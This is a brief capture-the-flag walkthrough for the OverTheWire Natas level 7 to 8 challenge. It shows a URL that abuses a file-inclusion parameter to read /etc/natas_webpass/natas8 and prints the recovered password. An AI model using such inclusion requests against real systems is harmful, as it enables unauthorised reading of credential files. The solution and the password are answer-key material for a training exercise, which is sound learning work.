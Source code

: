 # Level 7 to Level 8

View the source code, and copy the address of the password (/etc/natas_webpass/natas8)
Change the url to: http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```